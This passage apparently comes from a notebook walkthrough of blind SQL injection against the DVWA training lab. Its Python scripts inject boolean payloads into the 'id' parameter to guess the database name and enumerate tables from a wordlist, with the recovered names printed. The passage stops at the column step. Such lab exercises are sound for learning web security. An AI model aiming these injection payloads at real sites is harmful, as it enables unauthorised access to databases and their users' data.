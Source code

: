     ['advw', 'adwv', 'avdw', 'avwd', 'awdv', 'awvd', 'davw', 'dawv', 'dvaw', 'dvwa', 'dwav', 'dwva', 'vadw', 'vawd', 'vdaw', 'vdwa', 'vwad', 'vwda', 'wadv', 'wavd', 'wdav', 'wdva', 'wvad', 'wvda']


#### 2.3 Let's find the real name of the database

```python
db_name = ""
id_param = "' or DATABASE() LIKE  '"

for elem in permutations_chaine:
    params = {
        'id': id_param+elem+"' -- -",
        'Submit': 'Submit', 
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        db_name = elem
        break #on arrête la boucle dès qu'on trouve le nom

print("The name of the database queried is : "+db_name)
```

    The name of the database queried is : dvwa


### 3. Database tables

To find the tables in the **'dvwa'** DB, we'll use a wordlist of the most common table names.
The wordlist has been downloaded from  ==> https://github.com/drtychai/wordlists/blob/master/sqlmap/common-outputs.txt


```python
tables_wordlist = open('wordlist/tables.txt', 'r')
Lines = tables_wordlist.readlines()
tables_found = []

wordlist_of_tables = "wordlist/tables.txt"
sql_start = "' or EXISTS ( SELECT 1 FROM information_schema.tables WHERE table_schema = '"+ db_name +"' AND table_name LIKE '"
sql_end = "') -- -"
tables_found = send_request_with_wordlist(wordlist_of_tables, sql_start, sql_end)
tables_found
```

    [FOUND] =  users
    [FOUND] =  User_
    [FOUND] =  Users
    [FOUND] =  guestbook

    ['users', 'User_', 'Users', 'guestbook']



### 4. Columns in the "users" table
